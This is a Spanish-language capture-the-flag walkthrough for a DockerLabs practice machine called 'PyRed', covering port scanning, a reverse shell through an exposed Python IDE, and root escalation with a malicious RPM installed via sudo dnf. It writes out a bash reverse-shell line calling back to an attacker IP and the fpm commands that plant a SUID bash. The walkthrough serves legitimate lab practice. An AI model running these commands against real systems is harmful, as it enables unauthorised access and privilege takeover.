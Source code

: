 # Maquina PyRed

https://dockerlabs.es/
https://mega.nz/file/MHFl1JgS#HHZoCOv8d8Cne4AKUHRchI9IXGX-4OA2FjntN8QG7rw

## Desplegar el docker
![[Pasted image 20250520172659.png]]
![[Pasted image 20250520172725.png]]
TTL = 64 --> Linux/Unix

Una vez que sabemos que es una maquina Linux/Unix procedemos a ver que puertos tiene expuestos.
Para esto utilizaremos la herramienta `nmap`

`nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2`

![[Pasted image 20250520172805.png]]
Una vez `nmap` a terminado podemos ver el siguiente puerto:
- `5000`(HTTP)

Vamos visitar el puerto desde Firefox:
![[Pasted image 20250520173008.png]]
Parece ser un IDE de python:
![[Pasted image 20250520173104.png]]
Sabiendo esto y utilizando una reverse shell como en la maquina **Move** vamos a ponernos en escucha por el puerto `443`

![[Pasted image 20250520173420.png]]
![[Pasted image 20250520173435.png]]
Con el comando de python lo unico que hacemos es crear un docker TCP/IP y conectarlo a nuestra IP por el puerto 3333.
Como vemos ya tenemos una reverse shell en la cual podemos ejecutar cualquier comando.
![[Pasted image 20250520173652.png]]
Ahora como en las maquinas anteriores vamos a comprobar si podemos ejecutar algo como `root` sin necesidad de las password. Para ello utilizamos `sudo -l`

![[Pasted image 20250520173826.png]]

Podemos ver que podemos ejecutar `dnf`, esto es lo que utiliza redhat/fedora para instalar paquete (lo que sería apt en debian)

Vamos a investigar en https://gtfobins.github.io/ si podemos crear un `.rpm` malicioso y escalar privilegios.

Para ello vamos a utilizar el comando 
`TF=$(mktemp -d)`
`echo 'chmod u+s /bin/bash' > $TF/x.sh`
`fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF`

Para poder hacer uso de estos comando tendremos que descargar los siguientes en kali.
`ruby ruby-dev gcc make`
`git clone https://github.com/jordansissel/fpm.git`
`sudo gem install fpm`

![[Pasted image 20250520174632.png]]
Una vez hemos creado nuestro `.rpm` podemos con python crear un servidor para descargarlo en la victima.
`python3 -m http.server 80`

Para poder tener una reservese shell con bash no mandamos otra
`bash -c "bash -i >&/dev/tcp/192.168.109.144/443 0>&1"  `

![[Pasted image 20250520194111.png]]

Ahora ya podemos movernos más comodos  y descargarnos nuestro`.rpm`
Nos vamos al /home del ususario y lo descargamos
![[Pasted image 20250520194514.png]]

Y ahora lo instalamos
![[Pasted image 20250520194741.png]]
![[Pasted image 20250520194802.png]]
Y ya seriamos root
